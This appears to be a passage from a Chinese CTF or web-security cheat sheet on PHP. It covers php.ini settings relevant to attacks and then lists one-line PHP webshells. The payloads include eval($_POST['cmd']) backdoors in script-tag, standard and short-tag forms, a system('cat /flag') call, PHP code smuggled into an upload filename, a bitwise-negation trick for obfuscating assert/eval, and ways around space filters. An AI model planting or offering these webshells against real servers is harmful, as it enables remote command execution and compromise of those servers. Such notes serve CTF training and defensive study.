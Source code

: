 **默认为 on(在未来将被移除)**

>   **该指令仅对 Apache 模块版本的 PHP 有效，动态添加php模块**

###### 5、**extension_dir**

###### 6、**include_path**

>   PHP 用include()函数包函文件时的默认路径

###### 7、**open_basedir**

>   **这个选项设置了文件读取的时候的目录限制**

###### 8、**short_open_tag**

>   判断服务器是不是**支持短标签**，这在写 shell 的时候很有帮助

##### 7、**phar**

>   **文件包含还有反序列化重点关注**

###### 8、**SESSION**

###### 9、**PHP Variables**

 





## 2、一句话木马

```nginx
-- script标签要求php版本在7.0以下
<script language='php'>eval($_POST['cmd']);</script>
<script language='php'>system('cat /flag');</script>
<?php @eval($_POST['shell']);?>
-- 短标签写法
这个<?= ?>相当于<?echo ?>
-- 短标签<? ?>需要php.ini开启short_open_tag = On，但<?= ?>不受该条控制
<?=@eval($_POST['shell']);?>
<?=$_GET['cmd']; ?>

filename="<?=$_GET['cmd']; eval($_POST['cmd']); ?>"
```

```nginx
取反木马构造：
urlencode(~'assert');
urlencode(~'(eval($_POST[mochu]))')
```

```nginx
使用【``】符号PHP会尝试将反引号中的内容作为shell命令来执行，与函数shell_exec() 相同
	关闭了 shell_exec() 时反引号运算符是无效的，反引号不能在双引号字符串中使用。
	例如：`ls /`
使用【\t】绕过空格检查
使用【%09】也可以代替空格
```
